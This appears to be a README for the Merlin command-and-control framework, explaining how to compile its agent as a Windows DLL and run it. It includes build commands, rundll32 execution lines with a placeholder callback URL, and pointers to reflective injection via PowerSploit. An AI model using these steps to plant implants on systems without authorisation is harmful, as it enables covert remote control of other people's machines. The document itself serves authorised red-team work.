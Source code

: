 # Merlin Agent DLL
Merlin can be compiled into a DLL. The `data/bin/dll/merlin.c` file is
a very simple C file with a single function. The `VoidFunc` and `Run`
functions are exported to facilitate executing the DLL.
The `VoidFunc` function name was specifically chosen to facilitate use
with PowerSploit's
[Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
. Using `VoidFunc` requires no modification to run Merlin's DLL with
Invoke-ReflectivePEInjection.

If the DLL is compiled on Windows, the
[TDM-GCC](http://tdm-gcc.tdragon.net/download) 64bit compiler has proven
 to work well during testing.

If the DLL is compiled on Linux, ensure `MinGW-w64` is installed.

## Creating the DLL
The DLL can be created using the Make file with `make agent-dll`

Alternatively, it can be compiled without Make by following these steps:
* Create the required C archive file:
  * `cd data/bin/dll;go build -buildmode=c-archive ../../../cmd/merlinagentdll/main.go`

* Compile the DLL
  * `gcc -shared -pthread -o merlin.dll merlin.c main.a -lwinmm -lntdll -lws2_32`

You will now have DLL file that you can use with whatever method of
execution you would like.

## Execution with Rundll32.exe
The DLL can be executed on a Windows host using the rundll32.exe
program. An example of using `rundll32` is:

`rundll32 merlin.dll,main` or `rundll32 merlin.dll,Run`

A different Merlin server _can_ be provided when executing the DLL by
suppling the target URL as an argument. An example is:

`rundll32 merlin.dll,Run https://yourdomian.com:443/`

## Invoke-Merlin
The compiled DLL can be inserted into the `Invoke-Merlin.ps1` script.
Check the [README](../powershell/README.MD) in the `powershell` directory for
additional details.

## Limitations
It is important to note that the DLL is currently in the
Proof-of-Concept stage. Because of this, there is no way to provide a
different Merlin server URL when calling `Invoke-Merlin`.
`Invoke-Merlin` will only call back to the Merlin server at
127.0.0.1. because that is the hard coded value. Future work will
facilitate specifying the value at compile time or when executing the
script. Work is in progress to overcome this issue.

One option to overcome this is to hard-code in the target Merlin server
address into the `url` variable of the `cmd/merlinagent/main.go` prior
to creating the C archive file.